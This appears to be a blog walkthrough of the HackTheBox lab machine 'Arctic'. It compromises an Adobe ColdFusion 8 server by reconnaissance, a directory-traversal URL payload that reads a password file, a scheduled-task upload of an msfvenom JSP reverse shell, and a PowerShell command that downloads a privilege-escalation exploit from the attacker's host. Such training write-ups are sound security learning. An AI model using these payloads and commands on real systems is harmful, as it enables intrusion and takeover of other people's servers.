 ```yaml
---
layout: post
title: "HackTheBox Walkthrough - Arctic"
author: "Emmet Friel"
categories: HackTheBox
image: htb/arctic/arctic.png
---
```


# Introduction

Arctic is an "easy" Windows machine on Hackthebox.


# Reconnaissance & Enumeration

```bash
root@kali:~/Documents/boxes/arctic# nmap -sC -sV -O -oN nmap.nmap 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 13:10 BST
Nmap scan report for 10.10.10.11
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.73 seconds
```

The scan shows two MSRPC services and one unknown that nmap couldn’t pick up. Before checking out what it is exactly, I used rpcclient and tried to connect to the two MSRPC services with anonymous credentials:

```bash
rpcclient -U "" -N -p 135 10.10.10.11
rpcclient -U "" -N -p 49154 10.10.10.11
```

Server timed out, no luck. Back to see whats running on port 8500 so navigating to that port on the browser shows the webpage.

| ![image]({{site.github.url}}/assets/img/htb/arctic/index.png) |
| :--: |
| *Webpage running on port 8500* |

Navigating through the directory I came across an Adobe ColdFusion8 admin portal. Note that the webpages take about 20 seconds to load so be patient.

| ![image]({{site.github.url}}/assets/img/htb/arctic/portal.png) |
| :--: |
| *Adobe ColdFusion8 web portal* |

Searching information about Adobe ColdFusion 8, it came out in July 2007 and the latest version is now ColdFusion 2018. ColdFusion uses its own server-side markup language (CFML) and the application itself was wrote in Java but to verify this we can view the HTTP headers using CURL.

| ![image]({{site.github.url}}/assets/img/htb/arctic/httpheaders.png) |
| :--: |
| *Grabbing HTTP headers gives us more information about the server* |

So, ColdFusion is hosted on a JRun Web Server and that runs on JSP, another server-side language. Quick search on ColdFusion8 exploits and the one I used was: Adobe ColdFusion - Directory Traversal which refers to CVE-2010-2861: 
> “Multiple directory traversal vulnerabilities in the administrator console in Adobe ColdFusion 9.0.1 and earlier allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.”

The exploit gives us the ability to read file paths using these parameters! Reading the exploit script it shows a directory that looks like it would show us some password properties: ```http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

| ![image]({{site.github.url}}/assets/img/htb/arctic/hash.png) |
| :--: |
| *The directory path returned a hashed password on the webpage* |

The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be **happyday**. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.

| ![image]({{site.github.url}}/assets/img/htb/arctic/mappings.png) |
| :--: |
| *Important directory mappings. If we get to upload files to the server we'll use these default file paths* |

On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Lovely. We know the server handles CFML and JSP so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```

| ![image]({{site.github.url}}/assets/img/htb/arctic/task.png) |
| :--: |
| *Creating a task to download a file from my python webserver* |

Create a new directory to host the reverse shell file using a webserver, create a jsp reverse shell using msfvenom and setup your netcat listener. Go the **http://10.10.10.11:8500/CFIDE/shell.jsp** and then wait for your listener to catch that connection.

```bash
root@kali:~/Documents/boxes/arctic/share# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f raw > shell.jsp
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/shell.png) |
| :--: |
| *Shell access to the victim with user privs* |

# Privilege Escalation

If you run ```systeminfo``` you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability: 

```bash
root@kali:~/Documents/boxes/arctic# python windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

After some trial and error, MS10-059 gave me that root shell :)

```windows
C:\Users\tolis\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/MS10-059.exe','C:\Users\tolis\Desktop\exploit.exe')"
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/exploit.png) |
| :--: |
| *Running the exploit* |

![image]({{site.github.url}}/assets/img/htb/arctic/root.png)


Boom, root privelleges.